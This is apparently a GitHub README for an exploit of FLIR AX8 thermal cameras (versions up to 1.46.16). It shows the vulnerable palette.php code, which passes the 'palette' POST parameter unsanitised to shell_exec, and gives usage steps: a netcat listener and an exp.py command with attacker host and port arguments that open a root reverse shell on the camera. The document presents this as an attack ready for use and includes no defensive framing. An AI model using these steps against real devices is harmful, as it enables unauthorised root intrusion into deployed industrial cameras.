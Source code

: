 # flir_ax8_rce

All FLIR AX8 thermal sensor cameras version up to and including 1.46.16 are vulnerable to Remote Command Injection. This can be exploited to inject and execute arbitrary shell commands as the root user through the id HTTP POST parameter ["palette"] in the palette.php endpoint. A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges. 

palette.php
```
<?php
	if(isset($_POST["palette"])){
		shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/palette ".$_POST["palette"]);
		echo json_encode(array("success"));
	}
?>
```

attack execute:
  ```
  nc -lp LPORT
  python3 exp.py --RHOST RHOST --RPORT RPORT --LHOST LHOST --LPORT LPORT
  ```

Then it will get the reverse shell of the device。


<img width="193" alt="1" src="https://user-images.githubusercontent.com/63924776/188060839-f4d34415-8d79-443c-bd70-c9a733eaacf4.PNG">

